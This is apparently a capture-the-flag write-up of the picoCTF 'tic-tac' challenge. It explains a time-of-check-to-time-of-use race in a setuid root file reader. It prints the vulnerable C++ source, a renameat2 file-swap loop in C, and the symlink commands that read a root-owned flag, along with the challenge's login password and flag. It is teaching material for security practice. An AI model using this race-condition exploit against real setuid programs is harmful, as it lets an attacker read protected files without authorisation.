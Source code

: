 # tic-tac

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

Author: Junias Bonou

Description

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it. `ssh` to `saturn.picoctf.net:56275`, and run the binary named "txtreader" once connected. Login as `ctf-player` with the password, `483e80d4`

## Find the flag

**In this challenge, we can SSH into the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/picoCTF-2023)-[2023.03.28|22:15:45(HKT)]
└> ssh -p 56275 ctf-player@saturn.picoctf.net
[...]
ctf-player@saturn.picoctf.net's password: 
[...]
ctf-player@pico-chall$ ls -lah
total 32K
drwxr-xr-x 1 ctf-player ctf-player  20 Mar 28 14:15 .
drwxr-xr-x 1 root       root        24 Mar 16 02:27 ..
drwx------ 2 ctf-player ctf-player  34 Mar 28 14:15 .cache
-rw-r--r-- 1 root       root        67 Mar 16 02:28 .profile
-rw------- 1 root       root        32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player 912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19K Mar 16 02:28 txtreader
```

Right off the bat, we see 3 files in the `ctf-player` home directory: `flag.txt`, `src.cpp`, `txtreader`.

The `txtreader` executable has a **SUID** sticky bit, which will run the executable as the owner (`root`).

**`src.cpp`:**
```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

This C++ source code is the compiled `txtreader` executable.

**In this source code, we can see something really interesting:**
```cpp
std::string filename = argv[1];
std::ifstream file(filename);
[...]
// Check the file's status information.
[...]
// Check the file's owner.
[...]
// Read the contents of the file.
if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }
```

As you can see, it ***first open the file***, then check the file's status information and owner.

If all checks are passed, then we can read the given file.

Hmm... I can smell some ***race condition!***

After poking around, I found [LiveOverflow's video about "file path race condition" ](https://www.youtube.com/watch?v=5g137gsB9Wk), which is very helpful for us.

In that video, he talks about we can:

- ***Create a symbolic (symlink) file to read files that don't belong to us***

**Also, he mentioned about the [logrotate exploit's `rename.c`](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c):**
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

This C code will ***exchange 2 files that we given in an infinite loop***.

**Armed with above information, we can create a symlink file and a dummy file:**
```shell
ctf-player@pico-chall$ ln -s flag.txt fakeflag.txt
ctf-player@pico-chall$ touch raceme.txt
ctf-player@pico-chall$ ls -lah
[...]
lrwxrwxrwx 1 ctf-player ctf-player   8 Mar 28 14:25 fakeflag.txt -> flag.txt
[...]
-rw-rw-r-- 1 ctf-player ctf-player   0 Mar 28 14:25 raceme.txt
[...]
```

**Then, copy and paste the `rename.c` code and compile it:**
```shell
ctf-player@pico-chall$ nano rename.c
ctf-player@pico-chall$ gcc rename.c -o rename
```

**Next, run `rename` executable with file `fakeflag.txt` and `raceme.txt`, throw that into background via `&`:**
```shell
ctf-player@pico-chall$ ./rename fakeflag.txt raceme.txt &
[1] 63
```

**This will constantly exchanging our symlink `fakeflag.txt` and `raceme.txt`:**
```shell
-rw-rw-r-- 1 ctf-player ctf-player   0 Mar 28 14:25 fakeflag.txt
lrwxrwxrwx 1 ctf-player ctf-player   8 Mar 28 14:25 raceme.txt -> flag.txt
```

In here, ***the exchange is so fast, that the `raceme.txt` is symlink to `flag.txt`!!***

**With that said, we can run `txtreader fakeflag.txt` to read the flag!**
```shell
ctf-player@pico-chall$ ./txtreader fakeflag.txt 
Error: you don't own this file
ctf-player@pico-chall$ ./txtreader fakeflag.txt 
Error: you don't own this file
ctf-player@pico-chall$ ./txtreader fakeflag.txt 
picoCTF{ToctoU_!s_3a5y_2075872e}
```

Nice!!!

- **Flag: `picoCTF{ToctoU_!s_3a5y_2075872e}`**

## Conclusion

What we've learned:

1. File Path Race Condition